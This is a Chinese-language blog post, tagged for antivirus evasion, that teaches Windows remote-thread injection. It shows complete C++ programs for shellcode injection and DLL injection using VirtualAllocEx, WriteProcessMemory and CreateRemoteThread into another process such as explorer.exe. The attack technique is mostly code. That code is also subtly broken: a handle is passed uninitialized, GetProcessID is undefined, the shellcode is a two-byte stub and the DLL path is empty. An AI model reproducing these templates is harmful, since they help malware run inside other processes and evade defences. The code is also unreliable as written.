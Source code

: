 ```yaml
---
layout: post
title: CreateRemoteThread Inject
categories: Inject
description: Inject 之 CreateRemoteThread
keywords: Windows，注入，免杀
---
```


远程线程注入技术

# 一、Shellcode注入

## 1.获取目标进程句柄

首先需要获取注入的进程信息（例如 explorer.exe）。通过调用三个 API 来搜索进程：CreateToolhelp32Snapshot，Process32First，Process32Next。CreateToolhelp32Snapshot 用于枚举指定进程或所有进程的堆或模块状态，返回一个快照。 Process32First 检索快照中有关第一个进程的信息，然后在循环中使用 Process32Next 来遍历它们。 获取到目标进程后，再通过调用OpenProcess 获取目标进程的句柄。

```
	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessID());
```

## 2.申请空间

调用 VirtualAllocEx 申请一段空间来写入 Shllcode

```c++
	// 调用 VirtualAllocEx 申请一段空间来写入 Shllcode
	pRemoteBuffer = VirtualAllocEx(hRemoteThread, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
```

## 3.写入内存

调用 WriteProcessMemory 写入分配的内存中的 Shllcode

```c++
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, pRemoteBuffer, shellcode, sizeof shellcode, NULL);
```

## 4.创建线程

创建一个在另一个进程的虚拟地址空间中运行的线程

调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread

```c++
	// 调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread 
	hRemoteThread = CreateRemoteThread(hProcessHandle, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteBuffer, NULL, 0, NULL);
```

## 完整代码

```
#include <Windows.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	HANDLE	hProcessHandle;
	HANDLE	hRemoteThread;
	PVOID	pRemoteBuffer;

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessID());
	// 调用 VirtualAllocEx 申请一段空间来写入 Shllcode
	pRemoteBuffer = VirtualAllocEx(hRemoteThread, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, pRemoteBuffer, shellcode, sizeof shellcode, NULL);
	// 调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread 
	hRemoteThread = CreateRemoteThread(hProcessHandle, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteBuffer, NULL, 0, NULL);
	CloseHandle(hProcessHandle);

	return 0;
}
```

# 二、DLL注入

流程：目标进程-传入DLL地址-开启远程线程-加载DLL-实现DLL注入

使用函数如下：

`OpenProcess    // 获取已知进程的句柄`

`VirtualAllocEx    // 在远程进程中申请内存空间`

`WriteProcessMemory    // 向进程中写入东西`

`GetProcAddress    // 取得函数在DLL中的地址`

`CreateRemoteThreadEx    // 创建远程线程——即在其他进程中创建新的线程`

`CloseHandle    // 关闭句柄`

## 完整代码

```
#include <Windows.h>
#include <atlstr.h>

int main()
{
	HANDLE	hProcessHandle;
	HANDLE	hRemoteThread;
	PVOID	pRemoteBuffer;

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessID());
	// 获取 DLL 路径
	CString DLLPath;
	SIZE_T PathSize = (_tcslen(DLLPath) + 1) * sizeof(TCHAR);
	// 调用 VirtualAllocEx 申请一段空间来写入 DLL 路径
	pRemoteBuffer = VirtualAllocEx(hRemoteThread, NULL, PathSize, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 DLL 路径
	WriteProcessMemory(hProcessHandle, pRemoteBuffer, DLLPath, PathSize, NULL);
	// 获取LoadLibrary的入口点地址，需要进行强制类型转换
	PTHREAD_START_ROUTINE pfnStartAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	// 调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread 
	hRemoteThread = CreateRemoteThreadEx(hProcessHandle, NULL, NULL, pfnStartAddress, pRemoteBuffer, NULL, NULL, NULL);

	// 等待线程结束，清理线程和进程
	WaitForSingleObject(hRemoteThread, INFINITE);
	CloseHandle(hRemoteThread);
	CloseHandle(hProcessHandle);

	return 0;
}
```

